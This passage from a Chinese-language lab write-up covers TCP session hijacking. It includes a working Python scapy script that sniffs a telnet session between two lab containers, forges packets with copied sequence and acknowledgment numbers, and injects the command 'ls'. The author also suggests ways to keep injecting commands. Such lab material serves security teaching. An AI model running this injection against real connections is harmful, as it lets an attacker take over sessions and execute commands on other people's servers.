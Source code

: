 ![img](https://img-blog.csdnimg.cn/img_convert/47c6404831e6bd97e49b51f44b12f183.png)

这是因为seq和ack顺序关系被破坏。

> 我认为该工具应该可以、并且需要达到更好的效果：比如边接收用户机发来的讯息，边允许攻击机持续向服务器发送指令，这只需要设置两个变量暂存seq和ack即可做到。

#### scapy：

（1）Wireshark截包截图：

攻击的是下面这张图上的TCP报文，由于采取自动攻击的方式，所以seq和ack的具体数值对程序编写来说，并不重要。

![img](https://img-blog.csdnimg.cn/img_convert/12b0a10b0f10ddc3fdf5e5827eab1678.png)

（2）攻击脚本：

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.2"
DST = "172.17.0.4"
PORT = 23

def spoof(pkt):
  old_ip = pkt[IP]
  old_tcp = pkt[TCP]
  if(old_tcp.flags!="A"):
    return

  #############################################
  ip = IP( src  = old_ip.src,
        dst  = old_ip.dst
       )
  tcp = TCP( sport = old_tcp.sport,
        dport = old_tcp.dport,
        seq  = old_tcp.seq,
        ack  = old_tcp.ack,
        flags = "PA"
       )
  data = "ls\r\n"
  #############################################

  pkt = ip/tcp/data
  send(pkt,verbose=0)
  ls(pkt)
  #quit()

f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

> **出于谨慎，我将quit()注释掉，并且只抓flags为A的报文，将自己伪造的报文的flags改成PA。**
>
> 一方面是防止抓到自己伪造的报文造成不必要的循环；
>
> 另一方面是通过观察，seq和ack符合需要的目标报文的flags往往是A，telnet报文的flags是PA，并且，不能断定两台主机之间只有telnet通信有flags为A的报文，因此不妨将quit()注释掉，多针对几个ACK包。
